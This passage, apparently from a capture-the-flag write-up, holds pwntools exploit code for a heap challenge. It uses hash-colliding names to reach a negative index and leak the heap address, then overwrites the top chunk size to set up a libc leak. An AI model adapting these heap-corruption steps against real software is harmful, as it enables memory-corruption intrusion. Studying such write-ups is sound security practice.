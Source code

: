 ```python
	return ret[:len(ret)-1]

def edit(name, value):
	sh.send("3\n")
	sh.recvuntil("Name: ")
	sh.send(name)
	sh.recvuntil("Value: ")
	sh.send(value)
	sh.recvuntil("> ")

def printsc(name):
	sh.send("2\n")
	sh.recvuntil("Name: ")
	sh.send(name)
	ret = sh.recvuntil("> ")
	return ret.find("No such entry!") == -1


int_min_hash = p64(0x911261db)
#give -2, way to brute force this is quite easy.


for i in xrange(12,32):
	add(p64(xor_add_60[i]), 0x10, "no null pointer")
for i in xrange(0,16):
	add(p64(xor_add_61[i]), 0x10, "no null pointer")

add(int_min_hash, 0x10, "-2 idx access")

heap_addr = 0
for i in xrange(12,32):
	if printsc(p64(xor_add_60[i])):
		heap_addr |= (1 << i)

for i in xrange(0,16):
	if printsc(p64(xor_add_61[i])):
		heap_addr |= (1 << (i + 32))

print hex(heap_addr)
```

Now, we have the heap address, then we need to shrink the top chunk and leak `libc`, which is easier

```python
neg2_name_off = 0xdb0
top_off = 0x1090

#will allocate at df0
fakeent = p64(0)
fakeent += p64(heap_addr + neg2_name_off)
fakeent += p64((heap_addr + top_off + 8) | (8 << 0x30))
add("fakeent\x00", 0x200, fakeent)
add(p64(xor_add_60[5]), 0x10, "dd0->df0")
edit(int_min_hash, p64(0xf71))

#now topchunk
# 0x555555758090 PREV_INUSE {
#   size = 3953 = 0xf71
for i in xrange(0,4):
	add("consume\x00", 0x400, "topchunk")

#get a 0x221 unsorted bin
add("leaklibc\x00", 0x100, "leakleak")
```